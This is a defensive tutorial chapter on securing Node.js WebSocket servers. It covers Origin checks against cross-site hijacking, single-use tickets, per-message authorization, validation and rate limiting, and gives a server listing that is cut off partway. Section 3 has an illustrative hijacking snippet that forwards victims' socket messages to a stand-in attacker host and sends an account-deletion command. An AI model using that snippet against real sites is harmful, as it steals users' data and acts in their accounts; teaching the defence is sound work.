




# Chapter 6 — Security

> **Level:** Advanced

**What you'll learn:** A WebSocket is a long-lived, stateful, bidirectional pipe straight into your process. That is exactly what makes it powerful and exactly what makes it dangerous. In this chapter you will learn the threat model specific to WebSockets and how to defend against each threat in Node.js: encrypting transport with `wss://`, stopping **Cross-Site WebSocket Hijacking (CSWSH)** with Origin checks, authenticating the upgrade with **short-lived, single-use tickets** instead of leaking JWTs in URLs, authorizing *every message* (not just the connection), validating input with zod, capping frame sizes with `maxPayload`, rate-limiting each connection with a **token bucket**, limiting connections per IP, and hardening against DoS vectors like slowloris and compression bombs. You will build a complete, runnable secure chat server that implements all of it.

Prerequisites: the `noServer` + `upgrade` pattern from [Chapter 3](03-express-integration.md) and the `{type,id,payload,replyTo}` envelope + zod validation from [Chapter 4](04-messaging-patterns.md). Heartbeats and backpressure from [Chapter 5](05-reliability.md) are also part of your security posture (a dead or slow client is a resource leak).

---

## 1. Why WebSocket security is different

Most web security instincts come from the request/response world: every request carries cookies or an `Authorization` header, the server checks it, returns a response, and forgets about you. WebSockets break several of those assumptions:

| HTTP request/response | WebSocket |
|---|---|
| Auth checked on **every** request | Auth usually checked **once**, at the upgrade. After that the socket is trusted for hours. |
| Browser enforces **CORS** on `fetch`/XHR reads | **CORS does not apply.** Any page on any origin can open a WebSocket to your server. |
| Each request is bounded (body limit, timeout) | A connection is **unbounded in time**, and messages can arrive as fast as the client can send. |
| Stateless servers are easy to protect | Each connection holds memory (buffers, room membership, session state) — a juicy DoS target. |
| Custom headers (`Authorization`) are easy | The browser `WebSocket` API **cannot set custom headers**. You get the URL, cookies, and `Sec-WebSocket-Protocol`. |
| Proxies/WAFs understand the traffic | After `101 Switching Protocols`, many WAFs stop inspecting — frames are opaque to them. |

So the security model is: **the upgrade request is your one HTTP-shaped chance to reject a connection cheaply**; after that, **every frame is untrusted input** and **every connection is a resource you must bound**.



The order matters: **cheapest checks first**. A path or Origin check is a string comparison; a ticket lookup is a map read; a database lookup is expensive. You want an attacker to be rejected before they cost you anything.

---

## 2. Transport: always `wss://` in production

`ws://` is plaintext TCP. Anyone on the path (coffee-shop Wi-Fi, a compromised router, a corporate middlebox) can read and *modify* frames. The client→server masking in RFC 6455 is **not encryption** — it exists to stop cache-poisoning attacks on naive proxies, and the mask key is sent in the clear right next to the payload.

`wss://` is simply WebSocket over TLS, exactly like `https://` is HTTP over TLS. Rules:

1. **An `https://` page can only open `wss://`.** Browsers block mixed content, so `new WebSocket('ws://…')` from an HTTPS page throws. Derive the scheme from the page: `location.protocol === 'https:' ? 'wss' : 'ws'`.
2. **Terminate TLS at the edge** (nginx, a cloud load balancer, Caddy) in most deployments, and run plain `ws` between the proxy and Node on a private network. See [Chapter 8](08-scaling.md) for the nginx config.
3. If you must terminate TLS in Node, it is one line different:

```js
import https from 'node:https';
import fs from 'node:fs';

const server = https.createServer(
  { key: fs.readFileSync('key.pem'), cert: fs.readFileSync('cert.pem') },
  app
);
// the upgrade handler is identical — ws doesn't care whether the socket is TLS
server.on('upgrade', (req, socket, head) => { /* ... */ });
```

4. Behind a proxy, `req.socket.remoteAddress` is the proxy's IP. Read the real client IP from `X-Forwarded-For` **only if you trust the proxy** (take the right-most entry your own proxy appended, not the left-most, which the client controls).

---

## 3. Cross-Site WebSocket Hijacking (CSWSH) and the Origin check

This is *the* classic WebSocket vulnerability and it follows directly from "CORS does not apply".

Imagine your app authenticates WebSockets with a session cookie. A user logged into `chat.example.com` visits `evil.example`. That page runs:

```js
const ws = new WebSocket('wss://chat.example.com/ws');
ws.onmessage = (e) => fetch('https://evil.example/steal', { method: 'POST', body: e.data });
ws.onopen = () => ws.send(JSON.stringify({ type: 'account:delete' }));
```

The browser happily opens the socket and **attaches the victim's cookies** (subject to `SameSite` rules — see below). Your server sees a valid session cookie and accepts. Unlike CSRF with `fetch`, the attacker can also **read** every response, because there is no same-origin policy for WebSocket messages.



**The defence: check the `Origin` header during the upgrade.** Browsers always send `Origin` on WebSocket handshakes and page JavaScript cannot forge it. Compare it against an explicit allowlist — exact string match, no regex cleverness, no `endsWith('example.com')` (which `evilexample.com` passes).

```js
const ALLOWED_ORIGINS = new Set(['https://chat.example.com']);

server.on('upgrade', (req, socket, head) => {
  const origin = req.headers.origin;
  if (!origin || !ALLOWED_ORIGINS.has(origin)) return reject(socket, 403, 'origin not allowed');
  // ...
});
```

Important nuances:

- **Origin is a browser protection, not authentication.** A non-browser client (curl, a Python script, `wscat`) can send any Origin it likes. That's fine: CSWSH is about abusing *a victim's browser and ambient credentials*. A script doesn't have the victim's cookies. You still need real authentication.
- Should you allow a *missing* Origin? Non-browser clients (mobile apps, server-to-server) may omit it. If those clients exist, allow missing Origin **only** when auth is via an explicit token (not cookies). The example rejects missing Origin because it's browser-only.
- `SameSite=Lax`/`Strict` cookies mitigate CSWSH from *cross-site* pages, but not from *same-site* subdomains (`evil.chat.example.com` is same-site with `chat.example.com`) and not for older browsers. Check Origin anyway.
- The ticket pattern below also defeats CSWSH on its own, because the attacker's page cannot obtain a ticket (the `POST /api/ticket` needs a bearer token that only your page holds, and CORS *does* apply to that `fetch`). Defence in depth: do both.

---

## 4. Authentication: getting identity onto the socket

The browser `WebSocket` constructor takes a URL and optional subprotocols. **No custom headers.** So how do you authenticate?

| Approach | How | Problems |
|---|---|---|
| Cookie | Browser sends cookies on the upgrade automatically | CSWSH (needs Origin check), cookie must be on the WS domain, awkward cross-domain |
| JWT in query string `?token=eyJ...` | Easy | **The URL gets logged** — nginx access logs, load balancers, APM tools, browser history. A 15-minute or 24-hour JWT in logs is a stolen credential. |
| JWT in `Sec-WebSocket-Protocol` | `new WebSocket(url, ['bearer', token])` | Hack; header also gets logged by some proxies; server must echo a protocol back |
| First-message auth | Connect unauthenticated, send `{type:'auth', token}` first | Unauthenticated sockets consume resources; every handler must check "authed yet?"; need an auth timeout |
| **Short-lived ticket** | `POST /api/ticket` (normal HTTP auth) → random single-use ticket valid ~30 s → `?ticket=` | A small server-side store (or a very-short-lived signed token). **Recommended.** |

### The ticket pattern



Why it works:

- The **long-lived credential** (JWT, session cookie) only ever travels in an `Authorization` header on a normal HTTPS request — the channel all your existing tooling knows to redact.
- The **ticket** does appear in a URL, but it is **single-use** (deleted on first redemption, success or failure), **expires in seconds**, and is **bound to the client IP**. By the time it shows up in a log, it's worthless.
- The ticket is 24 random bytes from `crypto.randomBytes` — unguessable. Don't use `Math.random()` or UUIDv1.
- Because the attacker's cross-origin page can't call `POST /api/ticket` with your JWT (it doesn't have it, and CORS blocks reading the response), CSWSH is dead too.

Multi-instance note: an in-memory `Map` only works on one process. With several nodes (Chapter 8) put tickets in Redis with `SET ticket:<id> <json> EX 30 NX` and redeem with `GETDEL` so single-use holds across the cluster.

### Authenticate *before* `handleUpgrade`

Do every check in the `upgrade` listener and only call `wss.handleUpgrade` once you're satisfied. Rejecting there means you write a tiny HTTP response on the raw socket and destroy it — no WebSocket object, no buffers, no event listeners allocated:

```js
function reject(socket, status, message) {
  socket.write(
    `HTTP/1.1 ${status} ${http.STATUS_CODES[status]}\r\n` +
      'Connection: close\r\nContent-Type: text/plain\r\n' +
      `Content-Length: ${Buffer.byteLength(message)}\r\n\r\n${message}`
  );
  socket.destroy();
}
```

In the browser, *all* of these rejections look identical: the `error` event fires and then `close` with code **1006**. The browser deliberately hides the HTTP status from JS (so pages can't port-scan with WebSockets). Your client should treat "closed before open" as "re-authenticate and fetch a new ticket", with backoff.

### Token expiry on long-lived sockets

A JWT that expires in 15 minutes doesn't close a socket that was opened with it. Decide on a policy:

- **Revalidate periodically**: store `exp` on `ws.user` and have a sweep close sockets with `ws.close(4001, 'token expired')` (4000–4999 are application-defined codes). The client fetches a new ticket and reconnects (resume via Chapter 5's replay buffer).
- **In-band refresh**: client sends `{type:'auth:refresh', payload:{token}}` before expiry.
- **Revocation**: when a user logs out or is banned, find their sockets (`userId → Set<ws>` index) and close them. This is the big advantage of server-side sessions over stateless JWTs.

---

## 5. Authorization: per message, per room

Authentication tells you *who*. Authorization must be checked **every time they try to do something**, because a socket can send any message it likes at any time. The two most common bugs:

1. **Trusting identity from the payload.** `{type:'chat:message', payload:{from:'admin', text:'...'}}` — never read `from` from the client. Identity comes from `ws.user`, set by the server at upgrade time.
2. **Checking at join, not at action.** Checking "can this user join `admins`?" is necessary but not sufficient: also check "is this socket actually *in* the room it's posting to?" on every `chat:message`, or a client can just skip the join.

```js
const ROOM_ACL = { general: 'member', random: 'member', admins: 'admin' };
const canJoin = (user, room) => Boolean(ROOM_ACL[room] && user.roles.includes(ROOM_ACL[room]));

case 'room:join':
  if (!canJoin(ws.user, room)) return send(ws, 'error', { reason: 'forbidden' }, msg.id);
  ...
case 'chat:message':
  if (!ws.rooms.has(room)) return send(ws, 'error', { reason: 'not in room' }, msg.id);
  const out = { room, from: ws.user.id, text, at: Date.now() }; // from = server truth
```

Note the ACL is a **deny-by-default allowlist**: an unknown room name returns `undefined` → forbidden. Don't let clients create arbitrary rooms unless that's a feature, and if it is, cap the count (each room is a `Set` in memory).

If roles can change while connected (a user is demoted), either re-check against the source of truth on sensitive actions or push a server-side event that updates `ws.user` and evicts them from rooms.

---

## 6. Input validation

Every frame is attacker-controlled bytes. Layer the defences:

1. **Size** — `maxPayload` rejects big frames before they are fully buffered (next section).
2. **Type** — reject binary if you don't expect it (`isBinary`).
3. **Parse safely** — `JSON.parse` in `try/catch`. A throw inside a `message` handler that you don't catch is an uncaught exception that can crash the process — i.e. a one-packet DoS.
4. **Schema** — zod with `discriminatedUnion` on `type`, bounded string lengths, regex-restricted identifiers. zod's `z.object` **strips unknown keys** by default, which also neutralises `__proto__`/prototype-pollution-style payloads from reaching your logic.
5. **Semantics** — authorization (section 5).

```js
const RoomName = z.string().regex(/^[a-z0-9-]{1,32}$/);
const Incoming = z.discriminatedUnion('type', [
  z.object({ type: z.literal('room:join'), id: z.string().max(64), payload: z.object({ room: RoomName }) }),
  z.object({
    type: z.literal('chat:message'),
    id: z.string().max(64),
    payload: z.object({ room: RoomName, text: z.string().min(1).max(2000) }),
  }),
]);
```

And output encoding: the server relays `text` verbatim; the **client must render it with `textContent`, never `innerHTML`**, or you've built a stored-XSS broadcast system. The example client does this.

### Strike counting

Don't just ignore bad messages — count them. A legitimate client built by your team almost never sends malformed frames; one that sends several is either buggy or hostile. The example closes with **1008 (Policy Violation)** after 3 strikes.

---

## 7. `maxPayload` — bounding message size

`ws` defaults `maxPayload` to **100 MiB**. That means, out of the box, one client can make your process buffer 100 MiB for a single message — a few dozen such clients and you're out of memory. Set it to what your protocol actually needs:

```js
const wss = new WebSocketServer({ noServer: true, maxPayload: 16 * 1024, perMessageDeflate: false });
```

When a frame (or the sum of fragments of a message) exceeds the limit, `ws` stops reading, emits an `error` on the socket (`WS_ERR_UNSUPPORTED_MESSAGE_LENGTH`), and closes with **1009 (Message Too Big)**. Attach a `ws.on('error', …)` handler so this doesn't surface as an unhandled error event. The check happens on the frame *header's* declared length, so the server doesn't have to receive 100 MiB to know it's too big.

Also bound the HTTP side: `express.json({ limit: '2kb' })` on the ticket endpoints.

---

## 8. Rate limiting per connection: the token bucket

`maxPayload` bounds *size*; you also need to bound *rate*. A client sending 10,000 tiny messages per second will saturate your event loop (every message → parse → validate → broadcast to N peers = N sends).

The **token bucket** is the standard algorithm because it allows natural bursts (a user pasting 5 lines quickly) while enforcing a sustained rate:

- The bucket holds up to `capacity` tokens and starts full.
- Tokens refill continuously at `refillPerSec`.
- Each message costs 1 token. No token → rejected.



No timers needed — compute the refill lazily from elapsed time when a message arrives:

```js
function createBucket({ capacity, refillPerSec }) {
  let tokens = capacity;
  let last = Date.now();
  return function take() {
    const now = Date.now();
    tokens = Math.min(capacity, tokens + ((now - last) / 1000) * refillPerSec);
    last = now;
    if (tokens < 1) return false;
    tokens -= 1;
    return true;
  };
}
```

Run it **first** in the message handler, before `JSON.parse`, so a flood costs you as little CPU as possible. Tips:

- Different message types can cost different amounts (a `search` might cost 5 tokens, a `typing` indicator 0.2).
- Per-connection limits are bypassed by opening many connections — hence per-IP connection limits (next) and, in production, per-*user* buckets stored in Redis.
- What to do on exceed: drop silently, reply with an error, or disconnect. The example replies and adds a strike, so sustained flooding disconnects with 1008.

---

## 9. Connection limits per IP

Each connection costs memory (the `ws` object, socket buffers, your per-connection state — easily 10–50 KiB). Without a cap, one host can open 60,000 sockets. Count connections per IP in the upgrade handler, **before** `handleUpgrade`, and decrement on `close`:

```js
if ((connsPerIp.get(ip) ?? 0) >= MAX_CONN_PER_IP) return reject(socket, 429, 'too many connections');
// ...on 'close':
const n = (connsPerIp.get(ws.ip) ?? 1) - 1;
n <= 0 ? connsPerIp.delete(ws.ip) : connsPerIp.set(ws.ip, n);
```

Caveats: users behind carrier-grade NAT or a corporate proxy share one IP, so pick a generous limit (tens, not 2) and combine with per-user limits. Also cap **total** connections per process so a botnet can't exhaust you — beyond that, the answer is scaling out and edge protection (Chapter 8).

---

## 10. DoS vectors specific to WebSockets

### Slowloris (slow handshakes)

An attacker opens thousands of TCP connections and sends the upgrade request headers one byte every few seconds, so each connection is never complete and never times out. Node has built-in defences on `http.Server` — make sure they're set:

```js
server.headersTimeout = 10_000; // whole header block must arrive within 10 s
server.requestTimeout = 15_000;
```

After the upgrade, "slow" becomes "idle": sockets that never send anything. The heartbeat sweep from [Chapter 5](05-reliability.md) terminates connections that stop answering pings; for sockets that answer pings but never authenticate (first-message-auth designs), add an auth timeout.

### Slow readers

The mirror image: a client that never *reads*. Every `ws.send` to it accumulates in `ws.bufferedAmount` in your process memory. Check `bufferedAmount` before sending and terminate clients above a threshold (Chapter 5, backpressure).

### Compression bombs and `permessage-deflate`

`permessage-deflate` compresses each message with zlib. It sounds free; it isn't:

- **Decompression bombs**: a 10 KiB compressed frame can inflate to many megabytes. `ws` does apply `maxPayload` to the *decompressed* size and aborts inflation when exceeded, so a sane `maxPayload` is essential if you enable compression.
- **Memory per connection**: each connection with context takeover keeps a zlib window (up to ~300 KiB with default settings, both directions). At 10k connections that's gigabytes.
- **CPU and zlib thread pool**: inflate/deflate run on libuv's small thread pool; heavy compression traffic can starve other async fs/crypto work and there are known memory-fragmentation issues at scale.
- **CRIME/BREACH-style attacks**: compressing attacker-influenced data alongside secrets in the same context can leak secrets via length side-channels.

In `ws@8` `perMessageDeflate` is **disabled by default** on the server — keep it that way (the example sets `false` explicitly to document the decision). If you need it, enable it with `serverNoContextTakeover: true, clientNoContextTakeover: true`, a `threshold` (don't compress tiny messages), a low `concurrencyLimit`, and a tight `maxPayload`.

### Amplification through broadcast

One inbound message to a room with 5,000 members becomes 5,000 outbound sends. Your rate limit should reflect *fan-out cost*, not just inbound count — e.g. make `chat:message` cost more in large rooms, or cap room size.

---

## 11. Secrets and logging

- **Never log full URLs of upgrade requests.** Log `url.pathname`, not `req.url`. Even with tickets, don't create a habit that will one day log a real token. Configure nginx `log_format` to exclude `$args` for `/ws` or use `$uri` instead of `$request`.
- Never put API keys, JWTs, or passwords in `?query` parameters of WebSocket URLs. They end up in proxy logs, browser history, `Referer`-like telemetry, and crash reports.
- Don't echo raw client input into logs without bounding its length (log injection, log flooding).
- Close reasons (`ws.close(code, reason)`) are visible to the client and limited to 123 bytes — never put internal details or stack traces in them.

---

## 12. CORS doesn't apply — and what that means

Say it once more because it's the most common misconception: **CORS headers (`Access-Control-Allow-Origin`) have no effect on WebSocket connections.** The `cors()` Express middleware you put on your API does nothing for your `upgrade` handler, and the browser never does a preflight for `new WebSocket()`. The **Origin check in your upgrade handler is the only cross-origin protection** you get. CORS *does* still protect your `POST /api/ticket` endpoint, which is another reason the ticket pattern is nice: it moves the credential-bearing step back into the world where CORS works.

---

## 13. The complete example, step by step

The example in `examples/06-security/` pulls everything together. Structure:

```
examples/06-security/
├── server.js          # Express 5 + ws (noServer) with all defences
├── public/index.html  # browser client: login → ticket → wss
└── README.md
```

Walkthrough of `server.js` (full listing below):

1. **Config block** — `ALLOWED_ORIGINS` (from env, defaulting to localhost), ticket TTL 30 s, 5 connections per IP, `maxPayload` 16 KiB, bucket of 10 tokens refilling at 5/s, 3 strikes. Having these as named constants at the top makes the security policy reviewable at a glance.
2. **Demo user store + ROOM_ACL** — two users; `alice` is an admin. Passwords compared with `crypto.timingSafeEqual` (in real life: argon2/bcrypt hashes).
3. **`POST /api/login`** — issues a 15-minute HS256 JWT. Note `algorithms: ['HS256']` on verify: always pin the algorithm to prevent `alg` confusion attacks.
4. **`POST /api/ticket`** — protected by `requireJwt`; creates 24 random bytes, stores `{user, ip, expires}`. A sweep interval (`unref()`'d so it doesn't keep the process alive) removes expired tickets so the map can't grow unbounded.
5. **`redeemTicket`** — deletes the ticket *before* validating it, so a ticket can never be tried twice.
6. **HTTP timeouts** — `headersTimeout`/`requestTimeout` against slowloris.
7. **`WebSocketServer`** — `noServer`, `maxPayload`, `perMessageDeflate: false`.
8. **`upgrade` handler** — path → Origin → per-IP limit → ticket, cheapest first, each failure a raw HTTP response + `destroy()`. Only then `handleUpgrade`, attaching `ws.user` and `ws.ip`.
9. **Token bucket** — lazily refilled closure per connection.
10. **zod schema** — the chapter 4 envelope with tight bounds.
11. **`connection` handler** — increments per-IP count, creates the bucket, sends a welcome. The `message` handler runs: rate limit → binary check → safe parse → schema → per-message authorization → handle. Strikes accumulate to a 1008 close. `close` decrements counters and leaves rooms; an `error` listener absorbs 1009 errors.
12. **Logging** — structured JSON, never including the query string.

Walkthrough of `public/index.html`:

1. Login with `fetch('/api/login')` → JWT kept in a local variable (not `localStorage`, which any XSS can read).
2. `fetch('/api/ticket')` with `Authorization: Bearer` → ticket.
3. `new WebSocket(`${scheme}://${location.host}/ws?ticket=…`)` with `scheme` derived from the page protocol.
4. All server text is rendered via `textContent` (XSS-safe).
5. Buttons to deliberately trip the defences: **Flood ×30** (token bucket → errors, then 1008 close) and **Send 20 KiB** (maxPayload → 1009 close).

### Full listing — `examples/06-security/server.js`

```js
// Chapter 6 — Security: ticket-based auth, Origin check, per-IP limits,
// token-bucket rate limiting, maxPayload, per-message validation + authorization.
//
// Flow:
//   1. POST /api/login   {username,password}  -> { token }   (long-ish lived JWT, stays in HTTP land)
//   2. POST /api/ticket  Authorization: Bearer <jwt> -> { ticket } (single-use, 30 s, bound to IP)
//   3. new WebSocket('ws://host/ws?ticket=...')  -> upgrade is checked BEFORE the handshake completes
import http from 'node:http';
import crypto from 'node:crypto';
import path from 'node:path';
import { fileURLToPath } from 'node:url';
import express from 'express';
import jwt from 'jsonwebtoken';
import { WebSocketServer, WebSocket } from 'ws';
import { z } from 'zod';

const PORT = Number(process.env.PORT) || 3000;
// In production: a long random secret from a secret manager, never a literal.
const JWT_SECRET = process.env.JWT_SECRET || crypto.randomBytes(32).toString('hex');
const ALLOWED_ORIGINS = new Set(
  (process.env.ALLOWED_ORIGINS || `http://localhost:${PORT},http://127.0.0.1:${PORT}`).split(',')
);
const TICKET_TTL_MS = 30_000;
const MAX_CONN_PER_IP = Number(process.env.MAX_CONN_PER_IP) || 5;
const MAX_PAYLOAD = 16 * 1024; // 16 KiB — chat messages never need more
const RATE = { capacity: 10, refillPerSec: 5 }; // burst of 10, sustained 5 msg/s
const MAX_VIOLATIONS = 3;

// ---------------------------------------------------------------------------
// Demo user store (use a real DB + bcrypt/argon2 in production)
// ---------------------------------------------------------------------------
const USERS = {
  alice: { password: 'alice123', roles: ['member', 'admin'] },
  bob: { password: 'bob123', roles: ['member'] },
};
// Room ACL: which role may join which room.
const ROOM_ACL = { general: 'member', random: 'member', admins: 'admin' };

// ---------------------------------------------------------------------------
// HTTP side
// ---------------------------------------------------------------------------
const app = express();
app.disable('x-powered-by');
app.use(express.json({ limit: '2kb' }));
app.use(express.static(path.join(path.dirname(fileURLToPath(import.meta.url)), 'public')));

app.post('/api/login', (req, res) => {
  const { username, password } = req.body ?? {};
  const user = USERS[username];
  // Constant-time compare to avoid timing oracles (demo-grade).
  const ok =
    user &&
    typeof password === 'string' &&
    password.length === user.password.length &&
    crypto.timingSafeEqual(Buffer.from(password), Buffer.from(user.password));
  if (!ok) return res.status(401).json({ error: 'invalid credentials' });
  const token = jwt.sign({ sub: username, roles: user.roles }, JWT_SECRET, {
    expiresIn: '15m',
    algorithm: 'HS256',
  });
  res.json({ token });
});

function requireJwt(req, res, next) {
  const m = /^Bearer (.+)$/.exec(req.get('authorization') ?? '');
  if (!m) return res.status(401).json({ error: 'missing bearer token' });
  try {
    req.user = jwt.verify(m[1], JWT_SECRET, { algorithms: ['HS256'] });
    next();
  } catch {
    res.status(401).json({ error: 'invalid token' });
  }
}

// ticket -> { user, ip, expires }
const tickets = new Map();
app.post('/api/ticket', requireJwt, (req, res) => {
  const ticket = crypto.randomBytes(24).toString('base64url');
  tickets.set(ticket, {
    user: { id: req.user.sub, roles: req.user.roles },
    ip: req.socket.remoteAddress,
    expires: Date.now() + TICKET_TTL_MS,
  });
  res.json({ ticket, expiresIn: TICKET_TTL_MS / 1000 });
});
// Sweep expired tickets so the map cannot grow without bound.
setInterval(() => {
  const now = Date.now();
  for (const [t, v] of tickets) if (v.expires < now) tickets.delete(t);
}, 10_000).unref();

function redeemTicket(ticket, ip) {
  if (!ticket) return null;
  const entry = tickets.get(ticket);
  tickets.delete(ticket); // single use — even on failure
  if (!entry || entry.expires < Date.now() || entry.ip !== ip) return null;
  return entry.user;
}

// ---------------------------------------------------------------------------
// WebSocket side
// ---------------------------------------------------------------------------
const server = http.createServer(app);
// Slowloris-ish defences on the HTTP layer (the upgrade request is HTTP too).
server.headersTimeout = 10_000;
server.requestTimeout = 15_000;

const wss = new WebSocketServer({
  noServer: true,
  maxPayload: MAX_PAYLOAD, // bigger frames -> close 1009
  perMessageDeflate: false, // no compression = no zip-bomb / memory amplification
});

const connsPerIp = new Map();

function reject(socket, status, message) {
  // Write a minimal HTTP response on the raw socket and hang up.
  socket.write(
    `HTTP/1.1 ${status} ${http.STATUS_CODES[status]}\r\n` +
      'Connection: close\r\nContent-Type: text/plain\r\n' +
      `Content-Length: ${Buffer.byteLength(message)}\r\n\r\n${message}`
  );
  socket.destroy();
}

server.on('upgrade', (req, socket, head) => {
  socket.on('error', () => socket.destroy());
  const url = new URL(req.url, 'http://placeholder');
  const ip = req.socket.remoteAddress;

  if (url.pathname !== '/ws') return reject(socket, 404, 'not found');

  // 1. Origin check — the CSWSH defence. Browsers always send Origin on WS handshakes.
  const origin = req.headers.origin;
  if (!origin || !ALLOWED_ORIGINS.has(origin)) {
    log('reject', { ip, reason: 'origin', origin });
    return reject(socket, 403, 'origin not allowed');
  }

  // 2. Per-IP connection limit.
  if ((connsPerIp.get(ip) ?? 0) >= MAX_CONN_PER_IP) {
    log('reject', { ip, reason: 'too many connections' });
    return reject(socket, 429, 'too many connections');
  }

  // 3. Authenticate with a single-use ticket.
  const user = redeemTicket(url.searchParams.get('ticket'), ip);
  if (!user) {
    log('reject', { ip, reason: 'bad ticket' });
    return reject(socket, 401, 'invalid or expired ticket');
  }

  wss.handleUpgrade(req, socket, head, (ws) => {
    ws.user = user;
    ws.ip = ip;
    wss.emit('connection', ws, req);
  });
});

// ---------------------------------------------------------------------------
// Token bucket (per connection)
// ---------------------------------------------------------------------------
function createBucket({ capacity, refillPerSec }) {
  let tokens = capacity;
  let last = Date.now();
  return function take() {
    const now = Date.now();
    tokens = Math.min(capacity, tokens + ((now - last) / 1000) * refillPerSec);
    last = now;
    if (tokens < 1) return false;
    tokens -= 1;
    return true;
  };
}

// ---------------------------------------------------------------------------
// Protocol (envelope from chapter 4) + validation
// ---------------------------------------------------------------------------
const RoomName = z.string().regex(/^[a-z0-9-]{1,32}$/);
const Incoming = z.discriminatedUnion('type', [
  z.object({ type: z.literal('room:join'), id: z.string().max(64), payload: z.object({ room: RoomName }) }),
  z.object({
    type: z.literal('chat:message'),
    id: z.string().max(64),
    payload: z.object({ room: RoomName, text: z.string().min(1).max(2000) }),
  }),
]);

const rooms = new Map(); // room -> Set<ws>

function send(ws, type, payload, replyTo) {
  if (ws.readyState !== WebSocket.OPEN) return;
  ws.send(JSON.stringify({ type, id: crypto.randomUUID(), payload, ...(replyTo && { replyTo }) }));
}

function canJoin(user, room) {
  const needed = ROOM_ACL[room];
  return Boolean(needed && user.roles.includes(needed));
}

wss.on('connection', (ws) => {
  connsPerIp.set(ws.ip, (connsPerIp.get(ws.ip) ?? 0) + 1);
  ws.rooms = new Set();
  ws.violations = 0;
  const take = createBucket(RATE);
  log('connect', { user: ws.user.id, ip: ws.ip });
  send(ws, 'session:welcome', { user: ws.user.id, roles: ws.user.roles, rooms: Object.keys(ROOM_ACL) });

  const strike = (reason, replyTo) => {
    ws.violations += 1;
    send(ws, 'error', { reason }, replyTo);
    if (ws.violations >= MAX_VIOLATIONS) ws.close(1008, 'policy violation');
  };

  ws.on('message', (data, isBinary) => {
    if (!take()) return strike('rate limited');
    if (isBinary) return strike('binary not accepted');

    let parsed;
    try {
      parsed = Incoming.safeParse(JSON.parse(data.toString('utf8')));
    } catch {
      return strike('invalid json');
    }
    if (!parsed.success) return strike('invalid message');
    const msg = parsed.data;

    switch (msg.type) {
      case 'room:join': {
        const { room } = msg.payload;
        // Authorization happens per message, not only at connect time.
        if (!canJoin(ws.user, room)) return send(ws, 'error', { reason: 'forbidden' }, msg.id);
        if (!rooms.has(room)) rooms.set(room, new Set());
        rooms.get(room).add(ws);
        ws.rooms.add(room);
        return send(ws, 'room:joined', { room }, msg.id);
      }
      case 'chat:message': {
        const { room, text } = msg.payload;
        if (!ws.rooms.has(room)) return send(ws, 'error', { reason: 'not in room' }, msg.id);
        // Identity comes from the server-side session, NEVER from the payload.
